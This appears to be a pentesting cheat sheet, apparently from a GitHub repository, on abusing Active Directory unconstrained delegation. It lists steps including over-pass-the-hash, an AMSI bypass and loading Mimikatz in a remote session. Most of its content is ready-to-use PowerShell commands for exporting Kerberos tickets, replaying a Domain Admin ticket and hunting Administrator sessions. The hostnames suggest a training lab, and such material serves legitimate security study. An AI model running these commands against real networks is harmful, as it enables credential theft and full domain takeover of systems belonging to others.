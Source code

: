 # Unconstrained Delegation

## Methodology/Steps
> 1. For an example we have machine pwn1 as an Unconstrained user; We are pwn0 and we got foot-hold/credentials/hashes for machine pwn2 who has local admin access for machine pwn1; Hence we can perform this attack
> 2. Get a Powershell session as a different user using **"Over pass the hash"** attack if required(in this case its **pwn2/appadmin**)
> 3. We can try searching for local admins it has access to using **Find-LocalAdminAccess -Verbose**
> 4. Create a **New-PSSession** attaching to the **"Unconstrained user"**
> 5. Enter the new session using **Enter-PSSession**
> 6. Bypass the *AMSI*
> 7. EXIT
> 8. Load **Mimikatz.ps1** on the new session using **Invoke-command**
> 9. Enter the new session using **Enter-PSSession** *again*
> 10. Now we can get the admin token and save it to the disk
> 11. Try and check if you have any file from a DA
> 12. If not we can try to pull if there is any sessions logged on as *Administrator* as pwn0 using **Invoke-Hunter** then run the attack again
> 13. Once we get an DA token we can Reuse the token using **Invoke-Mimikatz**
> 14. Now we can access any service on the DC; Example **`ls \\dc-corp\C$`** or use **WMI-Commands** / **ScriptBlock**

## Enumerate computers with Unconstrained Delegation
```powershell
Get-NetComputer -UnConstrained
```

## Check if a token is available and save to disk
> **Get admin token**
> After compromising the computer with UD enabled, we can trick or wait for an admin connection
```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

## Reuse of the DA token
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt Administrator@krbtgt-DOMAIN.LOCAL.kirbi"'
```

## Pull any sessions if logged on with administrator/ Printer Bug
```powershell
Invoke-UserHunter -ComputerName dcorp-appsrv -Poll 100 -UserName Administrator -Delay 5 -Verbose
```
